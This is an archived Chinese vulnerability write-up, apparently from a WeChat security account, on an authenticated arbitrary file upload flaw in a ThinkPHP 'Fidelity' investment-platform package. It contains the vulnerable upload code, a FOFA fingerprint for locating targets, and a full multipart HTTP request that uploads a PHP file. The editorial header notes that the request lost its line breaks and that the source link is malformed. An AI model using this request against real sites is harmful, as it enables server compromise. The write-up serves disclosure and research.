






# Fidelity充电桩AI量化理财系统存在前台任意文件上传漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：名为Fidelity的ThinkPHP投资理财源码系统
- 文献类型：代码审计与上传复现
- 版本、权限及部署边界：需前台有效Token/账户；邀请注册或默认账户是另一个前提；ThinkPHP5.0.24测试框架非产品版本
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 不可凭Fidelity名字归属同名金融公司，需源码发行者与包hash；源码只能关注回复取得无稳定来源
2. 标题前台不等于未认证，应明确登录要求；上传PHP能否执行取决于uploadss目录Web映射和解析设置
3. HTTP所有换行丢失，multipart不可直接发送；PHP也一行//注释吞后续分支；回源恢复
4. 成功上传会更新用户avatar，需标数据副作用；模糊ThinkPHP错误页指纹不能证明该产品；默认账户内容未提供

### 操作风险

成功上传会更新用户avatar，需标数据副作用；模糊ThinkPHP错误页指纹不能证明该产品；默认账户内容未提供

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://192.168.140.128Content-Type:>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 Mstir  星悦安全   2026-01-14 02:14  
  
  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**Fidelity充电桩AI量化投资理财系统，全开源的一套投资理财系统，可以改成任意产品，里面有点混乱，有民宿的产品、虚拟货币的产品、充电桩、AI量化产品，反正有点乱，有签到、积分商城、团队推广**  
  
**Fofa指纹:"模块不存在:index" && "/assets/img/error.svg" (模糊匹配，无明显指纹，需自行寻找)**  
  
  
  
  
  
**框架:ThinkPHP 5.0.24 Debug:True**  
## 0x01 漏洞研究&复现  
  
**需前台用户登录权限，若有邀请码可直接注册，或尝试使用默认账户登录.**  
  
**位于 /application/api/controller/Index.php 的 uploadFile 方法，通过file 上传文件，且无过滤，导致漏洞产生**  
  
****  
```
public function uploadFile(){  $token=$this->request->post('token');  $_user=Token::get($token);  $userModel=new \app\admin\model\User();  $user = $userModel->where(['id'=>$_user['user_id']])->find();if ($user) {    $file = request()->file('file');    $info = $file->move(ROOT_PATH . 'public' . DS . 'uploadss');    if($info){      $update_date = [];      $update_date['avatar'] = '/uploadss/'.$info->getSaveName();      $userModel->where(['id'=>$user['id']])->update($update_date);      // return $this->return_msg("OK", $result['data'], 0, 200);      $this->success('ok',$update_date['avatar']);    }else{      // 上传失败获取错误信息      $this->error('上传失败！');    }  } else {    $this->error('正在加载',[],-1);  } }
```  
  
  
**首先注册或登录获取一个token**  
  
  
  
**然后直接发包上传即可，记得要填入你获取到的Token Payload:**  
  
```
POST /api/index/uploadFile HTTP/1.1Host: 192.168.140.128Content-Length: 325Cache-Control: max-age=0Origin: http://192.168.140.128Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymwG6xOs2kBR9BArtUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://192.168.140.128/api/index/uploadFileAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Cookie: PHPSESSID=u4bthq23tf9mrsrn4bti7he5k7; f8bdb5149c9ad194cc3bf011b9ab4f61_ssl=2f054995-5901-4d4f-8a53-ce4d9fcec439.JcV5WvejEScTH4k3es7hKgZ7TNkConnection: close------WebKitFormBoundarymwG6xOs2kBR9BArtContent-Disposition: form-data; name="file"; filename="1.php"Content-Type: image/jpeg<?php phpinfo();?>------WebKitFormBoundarymwG6xOs2kBR9BArtContent-Disposition: form-data; name="token"你的Token------WebKitFormBoundarymwG6xOs2kBR9BArt--
```  
  
  
  
  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注下方公众号，发送 260114 获取源码!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
